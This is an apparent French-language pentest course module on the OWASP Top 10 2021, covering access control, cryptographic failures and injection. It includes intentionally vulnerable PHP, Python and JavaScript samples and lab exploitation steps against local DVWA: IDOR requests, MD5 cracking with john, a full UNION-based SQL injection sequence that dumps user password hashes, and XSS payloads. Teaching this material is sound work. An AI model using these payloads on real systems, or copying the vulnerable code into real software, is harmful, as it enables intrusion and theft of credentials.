





# Présentation

## Pourquoi l'OWASP Top 10 ?

Imagine que tu entres dans un château fort. Pour le prendre, tu n'as pas besoin de
connaître chaque pierre du mur : tu dois savoir quelles **portes** existent,
lesquelles sont **mal verrouillées**, et laquelle est la plus rentable à forcer.
Les applications web sont ces châteaux, et les familles de failles sont leurs
portes. Le problème : il existe des **milliers** de failles différentes. Où
commencer ?

C'est exactement la question que se pose l'OWASP depuis 2003.

**OWASP** (*Open Worldwide Application Security Project* — projet ouvert de
sécurité des applications ; l'organisation a changé son nom de « Open Web
Application Security Project » en 2022, mais le sigle est resté) est une
organisation **à but non lucratif** fondée en 2001, financée par des dons et des
adhésions. Elle ne vend rien : elle produit des standards, des guides, des outils
gratuits (comme **ZAP**, un proxy d'interception) et surtout **le Top 10** : le
classement des dix familles de failles web les plus répandues et les plus
dangereuses, réactualisé tous les 3-4 ans après analyse de **plusieurs centaines
de milliers d'applications réelles** fournies par les entreprises membres.

Le Top 10 n'est **pas** une liste exhaustive de toutes les failles web. C'est un
**radar** : les dix familles qu'un professionnel doit connaître en priorité parce
qu'elles représentent la grande majorité des incidents. Connaître ces dix familles,
c'est connaître la **carte des portes** du château.

> **Le savais-tu ?** La première version du Top 10 date de 2003. La version que
> nous étudions (2021) est le fruit de l'analyse de **347 000+ applications** et de
> plus de **1,4 million de cas de vulnérabilités**, collectés par plus de 30
> organisations partenaires. Le classement 2021 est à ce jour la version de
> référence utilisée dans les certifications, les contrats d'audit et les bug
> bounty.

## Pourquoi est-ce important pour un pentester ?

| Raison | Explication | Conséquence concrète |
| ------ | ----------- | -------------------- |
| **C'est la langue commune** | Le Top 10 est utilisé par les développeurs, les pentesters, les DSI, les assureurs | Dire « A01 : Broken Access Control » est compris immédiatement partout dans le monde |
| **C'est le socle de la méthodologie** | Un audit web complet commence toujours par ces familles | Ton rapport s'organise naturellement autour des A01 → A10 |
| **C'est mesurable** | Chaque famille a des exemples, des CWE (*Common Weakness Enumeration*, catalogue standardisé des faiblesses logicielles) et des contrôles | Tu peux vérifier, reproduire et prouver chaque résultat |
| **C'est demandé partout** | Certifications, entretiens d'embauche, appels d'offres, bug bounty | Sans le Top 10, aucun entretien de pentester web ne se passe bien |
| **C'est ce que les clients attendent** | Un client te paie pour savoir « qu'est-ce qui est cassé et comment le réparer » | Ton rapport final se lit par catégorie OWASP, avec gravité et correction |

Pour un pentester web, le Top 10 fonctionne comme une **checklist de diagnostic** :
tu le parcours méthodiquement, et chaque catégorie te dit *où chercher* et *que
vérifier*. Le niveau 4 t'a appris le **vocabulaire** (HTTP, cookies, sessions,
TLS, reconnaissance, fuzzing). Ce niveau 5 t'apprend les **maladies** : ce qui se
cache derrière chaque réponse HTTP et chaque formulaire.

## Où est-il utilisé ?

| Domaine | Usage réel |
| ------- | ---------- |
| **Audits de sécurité** | Les rapports d'audit d'applications web sont structurés selon le Top 10 (ou son dérivé, l'ASVS — *Application Security Verification Standard*) |
| **Certifications** | OSWE, CompTIA Security+, CEH, et la plupart des examens de « secure coding » s'appuient dessus |
| **Bug bounty** | Les programmes publics (HackerOne, Bugcrowd, YesWeHack) catégorisent souvent les failles par famille OWASP |
| **Développement sécurisé** | Les équipes dev traduisent le Top 10 en exigences de sécurité (SDLC — *Software Development Life Cycle*, cycle de vie du développement logiciel) |
| **Assurance & conformité** | Les assureurs cyber et les contrats exigent des tests couvrant le Top 10 |
| **Formation** | La plupart des cursus pentest web débutent et finissent par le Top 10 |
| **Outillage** | Les scanners automatiques (ZAP, Burp, Nuclei) marquent leurs résultats avec les codes A01 → A10 |

## Métiers

| Métier | Ce que fait ce métier | Rôle du Top 10 |
| ------ | --------------------- | -------------- |
| **Pentester web** | Teste les applications avec autorisation, exploite et rapporte les failles | Son métier principal : le Top 10 est sa grille de travail |
| **AppSec Engineer** | Conçoit les garde-fous et les pipelines de sécurité | Mappe les failles détectées vers les correctifs et les tests automatisés |
| **DevSecOps** | Intègre la sécurité dans la fabrication des applications | Bloquer les failles du Top 10 à la source (analyse statique, tests de régression) |
| **Développeur** | Écrit le code de l'application | Connaître les failles pour ne pas les créer |
| **SOC Analyst / Blue Team** | Détecte et répond aux attaques | Comprendre *comment* les attaquants exploitent ces failles pour les repérer |
| **Responsable conformité** | Vérifie le respect des normes | Le Top 10 sert de référentiel d'exigences dans les contrats |

## Prérequis

Ce cours est le **niveau 5** du parcours CyberAcademy. Il suppose que tu as validé
le **niveau 4 — Web Security**, c'est-à-dire que tu maîtrises déjà :

- les **requêtes HTTP** : méthodes (GET, POST…), codes (200, 302, 403, 429, 500…), en-têtes ;
- les **cookies et sessions** : à quoi ils servent, comment un serveur identifie un visiteur ;
- **HTTPS / TLS** : pourquoi le trafic est chiffré et comment le vérifier (`openssl`, `testssl.sh`) ;
- la **reconnaissance** de base : énumération de répertoires (`gobuster`, `dirsearch`), découverte de technologies ;
- le **fuzzing** : envoyer des entrées en masse et observer les différences de réponse ;
- les outils de requêtage : `curl`, `httpie`, et un proxy comme **Burp Suite** ou **ZAP**.

Aucune autre connaissance n'est requise. Tous les acronymes (SQL, SQLi, XSS,
CSRF, SSRF, IDOR, JWT, CSP, CVE…) seront définis en toutes lettres dans ce cours.

## Temps estimé et niveau

| Élément | Valeur |
| ------- | ------ |
| **Niveau** | 5 (sur 11) |
| **Temps estimé** | 14 heures (≈ 3 à 4 séances) |
| **XP à gagner** | 1 250 XP |
| **Badge** | 🛡️ Décrypteur |
| **Niveau suivant** | 6 — Pentesting Methodology |

## Comment suivre ce cours

1. Lis la **Théorie** en gardant un navigateur et un terminal ouverts : chaque
   exemple doit être testé sur un labo, jamais sur un site réel.
2. Observe les schémas de la section **Visualisation** pour ancrer les flux d'attaque.
3. Reproduis les **Démonstrations** sur **DVWA** (*Damn Vulnerable Web Application*,
   application web volontairement vulnérable), **OWASP Juice Shop** (boutique de
   démonstration volontairement vulnérable) ou les **labs PortSwigger Web Security
   Academy** (plateforme d'entraînement gratuite de l'éditeur de Burp Suite).
4. Fais les **Laboratoires** puis les **Mini Challenges** **sans lire la correction**
   dans un premier temps.
5. Termine par le **Quiz** : il faut au moins 80 % pour valider le niveau et gagner
   tes 1 250 XP.

> **⚠️ Légal** — Toutes les commandes et payloads de ce cours doivent être exécutés
> **uniquement sur des applications que tu possèdes, sur des machines virtuelles
> isolées, ou sur des plateformes d'entraînement qui t'y autorisent expressément**
> (DVWA chez toi, Juice Shop chez toi, labs PortSwigger, TryHackMe, Root-Me,
> HackTheBox). Tester un site, un serveur ou une application dont tu n'as pas
> l'autorisation écrite est **un délit**, même sans intention de nuire : en France,
> l'article 323-1 du Code pénal punit l'accès frauduleux à un système informatique
> jusqu'à 5 ans d'emprisonnement et 150 000 € d'amende. Le professionnel ne teste
> **que** ce qui lui appartient ou ce qu'un contrat autorise explicitement. Les
> payloads présentés ici sont des démonstrations pédagogiques, **jamais
> destructifs** : ils lisent, ils affichent, ils prouvent — ils ne suppriment rien.

---

## Objectifs pédagogiques

À la fin de ce cours, tu seras capable de :

1. **Identifier les dix familles de failles** du classement OWASP Top 10 2021, les
   distinguer entre elles, et situer chaque faille rencontrée dans la bonne
   catégorie (avec son équivalent 2017).
2. **Expliquer le mécanisme et l'impact** de chaque famille : pourquoi elle existe,
   ce qu'un attaquant peut en tirer (lecture de données, prise de contrôle,
   compromission de serveur…), et quels en sont les enjeux sur la confidentialité,
   l'intégrité et la disponibilité des données.
3. **Exploiter en laboratoire** les cinq familles les plus pratiquées par les
   pentesters web — injection SQL (SQLi), Cross-Site Scripting (XSS), Broken Access
   Control (dont les IDOR), SSRF et failles d'authentification — avec des payloads
   réels, exacts et non destructifs sur DVWA, Juice Shop ou les labs PortSwigger.
4. **Tester méthodiquement** les trois types de XSS (réfléchi, stocké, DOM), les
   trois techniques d'injection SQL (UNION, boolean-based, time-based), et savoir
   choisir la bonne selon la situation.
5. **Lire un code source vulnérable** (PHP, JavaScript, Python) et pointer la ligne
   ou la logique responsable, en reliant le défaut au type de faille.
6. **Recommander les protections adaptées** : requêtes préparées, encodage de
   sortie, en-têtes de sécurité, contrôle d'accès côté serveur, hachage robuste,
   rate limiting, journalisation — pour chaque famille du Top 10.
7. **Respecter le cadre légal et éthique** du pentest : labos autorisés, portée
   (scope) définie, payloads non destructifs, documentation et reporting honnête.

---

## Vue d'ensemble

Le parcours interne de ce cours suit le cycle de vie d'une faille vue par un
pentester : **reconnaître** le symptôme, **comprendre** le mécanisme, **prouver**
l'exploit en labo, puis **conseiller** la correction.



Les dix catégories du classement 2021 (avec l'équivalent 2017 pour comprendre
l'évolution et lire les anciens rapports) :

| Rang | Code OWASP 2021 | Catégorie | Équivalent 2017 | Taux d'occurrence |
| ---- | --------------- | --------- | --------------- | ----------------- |
| 1 | **A01** | Broken Access Control (contrôle d'accès cassé) | A05:2017 Broken Access Control | 94,52 % |
| 2 | **A02** | Cryptographic Failures (échecs cryptographiques) | A03:2017 Sensitive Data Exposure | 60,71 % |
| 3 | **A03** | Injection (SQL, commandes, LDAP, XML…) | A01:2017 Injection | 94,04 % |
| 4 | **A04** | Insecure Design (conception non sécurisée) | *Nouvelle catégorie 2021* | 48,51 % |
| 5 | **A05** | Security Misconfiguration (mauvaise configuration) | A06:2017 Security Misconfiguration | 90,02 % |
| 6 | **A06** | Vulnerable and Outdated Components (composants obsolètes) | A09:2017 Using Components with Known Vulnerabilities | 60,64 % |
| 7 | **A07** | Identification and Authentication Failures (échecs d'identification) | A02:2017 Broken Authentication | 39,11 % |
| 8 | **A08** | Software and Data Integrity Failures (échecs d'intégrité) | A08:2017 Insecure Deserialization (élargie) | 33,22 % |
| 9 | **A09** | Security Logging and Monitoring Failures (absence de journalisation) | A10:2017 Insufficient Logging & Monitoring | 27,41 % |
| 10 | **A10** | Server-Side Request Forgery (SSRF) | *Nouvelle catégorie 2021 (sondage communautaire)* | 3,11 % |

> **À retenir.** Le taux d'occurrence mesure la fréquence d'apparition dans les
> applications analysées, pas la gravité : l'access control est en tête parce qu'il
> est à la fois ubiquitaire et souvent mal implémenté. Le SSRF est en queue de
> classement par fréquence mais peut être **critique** (accès au réseau interne).

Note d'évolution : en 2021, le **XSS** (A07:2017) a été **fusionné dans
l'Injection** (A03:2021), et les anciennes catégories « Sensitive Data Exposure »,
« Insecure Deserialization » et « Insufficient Logging & Monitoring » ont été
**renommées ou élargies** pour refléter la cause racine plutôt que le symptôme.

---

## Théorie

Cette section est le cœur du cours. Pour chacune des dix familles, nous suivons
toujours le même plan : **Définition** → **Pourquoi c'est dangereux** → **Exemple de
code vulnérable** → **Comment l'exploiter** → **Comment s'en protéger** → **Résumé**.

Les deux familles les plus techniques — **Injection (A03)** et **Access Control
(A01)** — reçoivent des développements enrichis (SQLi avancé, XSS en trois types,
notion de CSRF) parce que ce sont celles que tu exploiteras le plus en pratique.

> **⚠️ Légal** — Chaque bloc « Comment l'exploiter » ci-dessous ne doit être
> reproduit que sur DVWA, Juice Shop, les labs PortSwigger ou des applications de
> test que tu possèdes. Aucun payload de ce cours n'est destructif : ils lisent et
> prouvent, ils ne modifient ni ne suppriment de données.

### a) A01:2021 — Broken Access Control (contrôle d'accès cassé)

**Définition.** Le contrôle d'accès est la règle qui décide **qui a le droit de
voir ou de faire quoi**. L'application doit vérifier, à chaque requête, deux
choses : *authentification* (es-tu bien celui que tu prétends être ?) et
*autorisation* (as-tu le droit de faire cette action précise ?). « Broken Access
Control » signifie que ces vérifications sont **absentes, mal écrites ou
contournables**. L'attaquant n'a pas besoin d'être « administrateur » du serveur :
il lui suffit souvent de **modifier un paramètre** dans l'URL ou la requête.

C'est la famille n°1 du classement 2021, avec un taux d'occurrence de **94,52 %**.
Elle regroupe plusieurs sous-familles :

| Sous-famille | Description | Exemple |
| ------------ | ----------- | ------- |
| **IDOR** (*Insecure Direct Object Reference* — référence d'objet directe non sécurisée) | L'application utilise un identifiant fourni par l'utilisateur (id, numéro de facture) sans vérifier qu'il en a le droit | `GET /facture/123` modifié en `GET /facture/124` |
| **Escalade de privilèges** | Un utilisateur normal accède à des fonctions d'administrateur | Forcer `role=admin` dans un formulaire, ou appeler une URL `/admin` non protégée |
| **Force browsing** (navigation forcée) | Deviner / énumérer des ressources qui ne doivent pas être publiques | `/backup.zip`, `/config.php`, `/users.csv` |
| **Contournement de contrôle** | La vérification est faite côté client seulement, ou sur une seule action | Bouton « supprimer » masqué côté client, mais la route POST reste accessible |

**Pourquoi c'est dangereux.** Parce que c'est la faille **silencieuse** : aucune
erreur, aucun crash. Le serveur répond « 200 OK » avec les données de quelqu'un
d'autre, et personne ne le remarque. L'impact est direct : **lecture des données
des autres utilisateurs, modification, suppression, prise de contrôle d'un compte
admin**. Concrètement : l'employé junior peut lire les salaires, l'acheteur peut
voir la liste des clients, un inconnu peut modifier l'article d'un autre.

**Exemple de code vulnérable** (Python / Flask — l'identifiant vient de l'URL et
n'est jamais comparé à la session) :

```python
@app.route("/profil")
def profil():
    user_id = request.args.get("id")          # ← l'utilisateur fournit "id"
    user = db.query("SELECT * FROM users WHERE id = ?", user_id)
    return render_template("profil.html", user=user)
    # Aucune vérification : user.id == session["user_id"]  ← ABSENT !
```

**Comment l'exploiter.** En labo (DVWA ou une app de test), il suffit de changer
l'identifiant dans l'URL et d'observer la réponse :

```bash
# Je suis l'utilisateur 1. Vérifions si l'application me laisse lire le profil 2 :
curl -b "session=<cookie>" "http://127.0.0.1:8000/profil?id=2"
```

Si la réponse contient le nom, l'email ou le rôle de l'utilisateur 2 → **IDOR
prouvé**. Avec Burp Suite, la variante professionnelle : l'onglet *Repeater* pour
la requête ciblée, puis *Intruder* pour automatiser sur `id=1..100` et repérer les
réponses de taille différente. Autres tests classiques : remplacer un cookie
`role=user` par `role=admin`, ou naviguer directement vers `/admin` avec un compte
normal.

**Comment s'en protéger.** Règle d'or : **ne jamais faire confiance aux entrées**,
et **vérifier l'autorisation à chaque requête, côté serveur**.

- Refuser par défaut : tout accès est interdit sauf autorisation explicite
  (deny by default).
- Vérifier la propriété de l'objet : `if objet.owner_id != session["user_id"]:
  403`.
- N'exposer des identifiants directs que si nécessaire ; sinon utiliser des
  références non prédictibles (UUID) — ça complique l'énumération sans la
  remplacer.
- Appliquer un contrôle d'accès **par fonction** (rôles) **et** **par objet**
  (propriété).
- Désactiver le listage des répertoires, protéger les fichiers et routes
  d'administration.
- Ne pas se fier aux contrôles côté client (masquer un bouton n'est pas une
  sécurité).
- Journaliser et surveiller les accès refusés (4xx sur les ressources sensibles).

**Résumé.** A01 = les vérifications « qui a le droit de quoi » sont cassées.
C'est la faille la plus fréquente et souvent la plus rentable : une simple
modification d'un `id` dans l'URL peut vider une base de données compte après
compte.

### b) A02:2021 — Cryptographic Failures (échecs cryptographiques)

**Définition.** Cette catégorie regroupe tous les cas où la **cryptographie** (la
science du chiffrement et du hachage) est **absente, mal utilisée ou périmée** :
données sensibles envoyées ou stockées **en clair** (lisibles par tous), mots de
passe hachés avec des algorithmes faibles, certificats TLS absents ou obsolètes,
générateur d'aléa prévisible. En 2021, la catégorie a été renommée de « Sensitive
Data Exposure » (exposition de données sensibles) vers « Cryptographic Failures »
pour insister sur la **cause** (mauvaise crypto) plutôt que sur le **symptôme**
(données exposées).

**Pourquoi c'est dangereux.** Parce que la protection la plus fondamentale des
données — ne pas les laisser lisibles — dépend de choix cryptographiques. Si un
attaquant intercepte le trafic (réseau Wi-Fi public, routeur compromis) ou vole un
fichier de base de données (sauvegarde, copie de disque), tout ce qui est en clair
est **lu immédiatement**, et tout ce qui est mal chiffré l'est **rapidement**. Les
mots de passe hachés en **MD5** (*Message Digest 5*) ou **SHA-1** (*Secure Hash
Algorithm 1*), deux fonctions de hachage obsolètes, se craquent en quelques
secondes avec `hashcat` ou `john` parce qu'ils sont très rapides à calculer — et
donc très rapides à essayer en masse.

**Exemple de code vulnérable** (PHP) :

```php
<?php
// 1) Mot de passe stocké avec MD5 : craquable en moins d'une seconde
$hash = md5($_POST["password"]);                  // ← A02 : hachage faible

// 2) Numéro de carte bancaire inséré en clair dans la base
$sql = "INSERT INTO commandes (carte) VALUES ('" . $_POST["carte"] . "')";
//                                                 ← A02 : donnée sensible en clair

// 3) Pas de redirection HTTPS : le formulaire s'envoie en HTTP (clair)
//    (le serveur ne force jamais HTTPS)           ← A02
?>
```

**Comment l'exploiter.** En labo, deux démonstrations classiques :

```bash
# 1) Intercepter le trafic non chiffré : sniffer un POST HTTP en clair
sudo tcpdump -i eth0 -A 'tcp port 80'      # on lit login + mot de passe en clair

# 2) Craquer un hash MD5 volé dans la base
echo -n "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt   # hash MD5 de "password"
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# -> password (md5) : password      (résultat quasi instantané)
```

Autre test : vérifier si le site force bien HTTPS (outils déjà vus au niveau 4) :

```bash
testssl.sh https://127.0.0.1:8443   # repère les protocoles TLS obsolètes (TLS 1.0/1.1)
```

**Comment s'en protéger.**

- **Forcer HTTPS partout** : redirection HTTP → HTTPS, en-tête
  `Strict-Transport-Security` (HSTS), TLS ≥ 1.2 (idéalement 1.3).
- **Chiffrer les données sensibles au repos** (base de données, sauvegardes).
- **Hacher les mots de passe avec un algorithme lent et salé** : **bcrypt**,
  **argon2** ou **scrypt**. Le « sel » est une valeur aléatoire ajoutée avant le
  hachage pour que deux mots de passe identiques donnent deux hashs différents.
- **Ne jamais stocker** de données inutiles (numéro de carte, CVV, secrets).
- **Chiffrer avec des algorithmes modernes** (AES-256, ChaCha20) et garder les
  clés dans un coffre (vault) dédié, jamais dans le code source.
- **Gérer le cycle de vie des certificats** : renouvellement automatique, révocation.

**Résumé.** A02 = « tes secrets ne sont pas des secrets » : pas de TLS, hachage
faible, stockage en clair. La cryptographie est l'art de garder les données
illisibles pour qui n'a pas la clé — si elle est mal utilisée, c'est comme fermer
une porte avec de la ficelle.

### c) A03:2021 — Injection

**Définition.** L'injection est une famille d'attaques où **des données fournies
par l'utilisateur sont interprétées comme du code ou des instructions** par
l'application. Le cas le plus célèbre est l'**injection SQL** (**SQLi**, *SQL
Injection* — insertion de code SQL malveillant dans une requête à la base de
données ; **SQL** signifie *Structured Query Language*, le langage des bases de
données relationnelles). Mais la famille regroupe aussi :

| Type d'injection | Interpréteur piégé | Effet |
| ---------------- | ------------------ | ----- |
| **SQLi** | Base de données SQL (MySQL, PostgreSQL, SQLite…) | Lire, modifier, supprimer des données ; parfois exécuter des commandes |
| **Command injection** | Shell du système (Linux) | Exécuter des commandes sur le serveur (lecture de fichiers, reverse shell) |
| **LDAP injection** | Annuaire LDAP (authentification d'entreprise) | Contourner l'authentification, énumérer les comptes |
| **XML / XXE** (*XML External Entity*) | Parseur XML | Lire des fichiers locaux, requêter des URLs internes |
| **XSS** (*Cross-Site Scripting* — script inter-sites) | Navigateur de la **victime** | Voler des cookies, usurper la session, modifier la page |

**Pourquoi c'est dangereux.** Parce que l'application **transmet ce que
l'attaquant tape directement à un interpréteur**. L'utilisateur croit envoyer
« des données », le serveur exécute « du code ». Une seule requête bien formée
peut afficher tous les mots de passe de la base, ou donner la main sur le serveur.
C'est la famille la plus connue du grand public, et longtemps la n°1 (elle l'était
en 2017 ; en 2021 elle est 3e, en partie parce que les frameworks modernes s'en
protègent mieux par défaut).

Nous développons ici les deux versants pratiques : **SQLi** (détaillé) et **XSS**
(détaillé avec ses trois types), plus la notion de **CSRF** qui s'en rapproche.

#### c.1 — L'injection SQL (SQLi) en détail

**Le mécanisme, simplement.** Une requête SQL est une phrase construite par
l'application. Exemple : « SELECT * FROM clients WHERE id = **1** ; ». Le nombre
`1` vient du champ que l'utilisateur a rempli. Si le programme **colle** cette
entrée directement dans la phrase (concaténation), alors l'utilisateur peut envoyer
du texte qui **ferme la phrase et en écrit une autre**. C'est exactement comme si
tu laissais quelqu'un finir ta phrase à ta place.

```sql
-- Ce que l'application construit quand tu tapes  1' OR '1'='1'-- -
SELECT * FROM clients WHERE id = '1' OR '1'='1'-- -' ;
--                          └───┬───┘└───┬───┘ └─┬─┘
--                       fermeture   OR toujours vrai   commentaire : le reste est ignoré
-- La condition est TOUJOURS vraie → la requête retourne TOUTES les lignes
```

**Les trois grandes techniques.**

| Technique | Principe | Exemple de payload (MySQL) | Usage |
| --------- | -------- | -------------------------- | ----- |
| **UNION-based** | Fusionner les résultats de la requête normale avec ceux d'une autre requête, pour **lire** ce qu'on veut | `' UNION SELECT username, password FROM users-- -` | Extraction directe (la plus rapide) |
| **Boolean-based** (aveugle) | Faire varier une condition VRAI/FAUX et observer la différence de réponse | `' AND 1=1-- -` (réponse normale) vs `' AND 1=2-- -` (réponse vide) | Quand rien ne s'affiche à l'écran |
| **Time-based** (aveugle temporel) | Déclencher un délai pour valider une hypothèse | `' AND SLEEP(5)-- -` (la page met 5 s à répondre) | Quand les réponses sont identiques |

**Exemple de code vulnérable** (PHP — c'est le vrai code de DVWA en niveau
« low ») :

```php
<?php
$id = $_GET['id'];                    // ← entrée brute, sans validation
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
//                      concaténation directe ← A03 INJECTION
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query);
?>
```

**Comment l'exploiter.** Séquence de tests (à faire sur DVWA en niveau low) :

```bash
# 1) Tester avec un caractère apostrophe : l'erreur SQL révèle la structure
http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1'&Submit=Submit
# -> "You have an error in your SQL syntax..."

# 2) Tester le nombre de colonnes avec ORDER BY
http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1' ORDER BY 3-- -&Submit=Submit   # OK
http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1' ORDER BY 4-- -&Submit=Submit   # erreur → 3 colonnes

# 3) Extraire la version et l'utilisateur de la base
http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT 1, version()-- -&Submit=Submit

# 4) Lister les tables de la base courante (via information_schema)
http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT 1, table_name FROM information_schema.tables-- -&Submit=Submit

# 5) Lire les colonnes de la table users
http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users'-- -&Submit=Submit

# 6) Extraire les identifiants et les hashs de mots de passe
http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT user, password FROM users-- -&Submit=Submit
```

Rappel d'encodage : dans une URL, les espaces deviennent `%20`, les apostrophes
`%27`, les virgules `%2C`. Le payload `1' UNION SELECT user, password FROM
users-- -` s'écrit donc en URL :
`1%27%20UNION%20SELECT%20user%2C%20password%20FROM%20users--%20-`.

**Erreur classique de débutant.** Oublier la fermeture de guillemet : la requête
originale contient `WHERE id = '$id'`, ton payload **doit** fermer la chaîne avec
`'` (ou commenter la fin avec `-- -`), sinon la syntaxe reste cassée. Autre
piège : oublier l'espace après `--` — `-- ` (tiret tiret espace) est un
commentaire MySQL, `--x` ne l'est pas toujours ; la variante `-- -` (avec espace
et tiret) fonctionne sur la plupart des SGBD. Attention : commentaires et
guillemets **changent selon la base** — `#` et `-- ` pour MySQL, `--` pour
PostgreSQL/MSSQL, `/* */` pour Oracle.

#### c.2 — Le Cross-Site Scripting (XSS) en détail

**Définition.** **XSS** (*Cross-Site Scripting* — script inter-sites) :
l'attaquant fait **exécuter du JavaScript par le navigateur de la victime**, à
l'insu de la victime et de l'application. L'application **affiche sans contrôle**
un contenu qui contient un `<script>`. Le navigateur l'exécute avec les **droits
de la page** (origine = domaine, cookies de session inclus). XSS n'attaque pas le
serveur : il attaque **les visiteurs du serveur**. Il existe **trois types** :

| Type | Où vit le payload | À quel moment il s'exécute | Exemple |
| ---- | ----------------- | -------------------------- | ------- |
| **Réfléchi** | Dans l'URL (paramètre GET) | Quand la victime clique sur le lien piégé | `site.fr/recherche?q=<script>alert(1)</script>` |
| **Stocké** | Dans la base de données (commentaire, profil) | Pour **tous** les visiteurs de la page | Un commentaire contenant `<script>…` |
| **DOM** | Dans le code JavaScript de la page (jamais envoyé au serveur) | Pendant le rendu côté navigateur | `site.fr/#` |

**Pourquoi c'est dangereux.** Le JavaScript exécuté dans le contexte d'un site
peut : lire `document.cookie` (vol de session), **usurper l'identité** de la
victime, afficher un faux formulaire (hameçonnage intégré), rediriger vers un site
malveillant, enregistrer les frappes clavier, ou envoyer des requêtes au nom de la
victime. Un XSS stocké sur un forum public devient une **épidémie** : chaque
lecteur est touché. C'est l'une des failles les plus rapportées en bug bounty.

**Exemple de code vulnérable** (PHP et JavaScript) :

```php
<?php
// XSS réfléchi : le nom est affiché SANS encodage
echo "Bonjour " . $_GET["name"] . " !";        // ← A03 : entrée non encodée en sortie
?>
```

```javascript
// XSS DOM : le navigateur insère un fragment d'URL dans innerHTML
document.getElementById("resultat").innerHTML = location.hash.substring(1);
// ← le "#..." de l'URL devient du HTML exécutable
```

**Comment tester les trois types** (DVWA ou Juice Shop, en labo) :

```bash
# XSS réfléchi — tester d'abord l'affichage de l'entrée, puis injecter
http://127.0.0.1/dvwa/vulnerabilities/xss_r/?name=<script>alert(1)</script>
# Variantes si <script> est filtré :

<svg/onload=alert(1)>
<iframe srcdoc="<script>alert(1)</script>">

# XSS stocké — dans un champ de commentaire (DVWA xss_s), poster :
<script>alert('stocké')</script>
